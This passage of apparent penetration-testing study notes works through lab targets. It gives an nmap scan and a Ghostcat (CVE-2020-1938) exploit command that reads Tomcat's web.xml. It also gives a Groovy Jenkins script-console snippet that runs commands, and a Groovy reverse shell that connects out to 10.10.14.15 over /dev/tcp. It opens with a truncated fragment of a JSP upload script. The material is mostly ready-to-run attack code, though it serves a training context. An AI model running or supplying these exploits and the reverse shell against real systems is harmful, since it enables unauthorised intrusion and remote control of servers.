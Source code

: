 to
```jsp
FileOutputStream(f);stream.write(m);o="uPlOaDeD:
```

### [CVE-2020-1938: Ghostcat](https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi)
All Tomcat versions before 9.0.31, 8.5.51, and 7.0.100 were found vulnerable

#### nmap scan to determine if the AJP service is running on port 8009
```Shell
nmap -sV -p 8009,8080 app-dev.inlanefreight.local
```

#### Running exploit to read `/web.xml`
```Shell
python2.7 tomcat-ajp.lfi.py app-dev.inlanefreight.local -p 8009 -f WEB-INF/web.xml
```


## Jenkins - Discovery & Enumeration

### Enumeration
Will usually be seen on internal penetration tests
![[Pasted image 20230221110731.png]]

## Attacking Jenkins
Need to obtain access first, then access the `Script Console`. The script console allows us to run arbitrary Groovy scripts within the Jenkins controller runtime.

### Script Console

Accessed at URL: `http://jenkins.inlanefreight.local:8000/script`

#### Script to run the `id` command
```groovy
def cmd = 'id'
def sout = new StringBuffer(), serr = new StringBuffer()
def proc = cmd.execute()
proc.consumeProcessOutput(sout, serr)
proc.waitForOrKill(1000)
println sout
```
![[Pasted image 20230221111714.png]]

#### Script to gain a reverse shell
```groovy
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.10.14.15/8443;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```
